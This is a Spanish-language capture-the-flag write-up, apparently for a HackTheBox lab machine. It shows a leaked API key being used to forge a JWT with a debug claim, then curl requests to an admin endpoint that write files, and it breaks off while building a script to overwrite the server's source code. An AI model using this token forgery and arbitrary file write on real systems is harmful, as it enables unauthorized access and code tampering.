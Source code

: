 ```console
HOME=/home/htb
APP_MODULE=app.main:app
PWD=/home/htb
API_KEY=68b329da9893e34099c7d8ad5cb9c940
```
Igual que en la maquina anterior :V
```console
└─$ ./files.sh /home/htb/app/main.py > main.py
# Tenemos estas rutas
from app.schemas.user import User # -> /app/schemas/user.py 
from app.api.v1.api import api_router # -> nos lleva a /home/htb/app/api/v1/endpoints/user.py 
from app.core.config import settings # -> /app/core/config.py
from app.api import deps
from app import crud 
```
No existe la ruta de ejecutar comandos pero si hay otra pera escribir archivos.
Sabemos por las varaibles que estamos en **/home/htb/** y ahí existe **/app/** que tiene el codigo fuente de la api como **main.py**. Aquí nos dicen 
que esto está en base64 también, Imaginemos el archivo /home/htb/test.
```console
└─$ curl -X 'POST' 'http://10.10.11.162/api/v1/admin/file/L2hvbWUvaHRiL3Rlc3Q%3D' \
  -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"file": "Test"}' \
  -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ..."
{"detail":"Debug key missing from JWT"}
```
Tenemos la key de la api para poder crear la cookie que nos de la gana. 
```
>>> import jwt
>>> token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3In0.8N5hggb5u-NdfZLYLUHxvpmR6w5j3c5VKEipM7VD-2c"
>>> secret = "68b329da9893e34099c7d8ad5cb9c940"
>>> cookie = jwt.decode(token, secret, ["HS256"])
>>> cookie["debug"] = True
>>> jwt.encode(cookie, secret, "HS256")
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3IiwiZGVidWciOnRydWV9.NPicg25nww0_6-F5yUY_ox6PYSLxLb_-WPqflTQZG5A'
```
Cambiamos la cookie

-------------------------
# Part 5: Sobreescribiendo el código fuente

Como seria /home/htb/Test ? ```echo -n "/home/htb/test" | base64 -w0 | tr -d "=" # -> L2hvbWUvaHRiL3Rlc3Q=```
```console
└─$ curl -X 'POST' 'http://10.10.11.162/api/v1/admin/file/L2hvbWUvaHRiL3Rlc3Q%3D' \
  -H 'accept: application/json' -H 'Content-Type: application/json' -d '{"file": "Test"}' \
  -H "Authorization: bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3IiwiZGVidWciOnRydWV9.NPicg25nww0_6-F5yUY_ox6PYSLxLb_-WPqflTQZG5A"
{"result":"success"}
└─$ ./files.sh /home/htb/test # -> {"file":"Test"} 
```
Es script de antes lo modificamos ligeramente para crear writting.sh (un script para escritura):
```bash
#!/bin/bash
bearer="eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjY4MjU1NjY3LCJpYXQiOjE2Njc1NjQ0NjcsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiODllNzg4ZjgtZDdhMC00NmM2LTk2MGEtNWNmYjM4ZWJkMjE3IiwiZGVidWciOnRydWV9.NPicg25nww0_6-F5yUY_ox6PYSLxLb_-WPqflTQZG5A"

```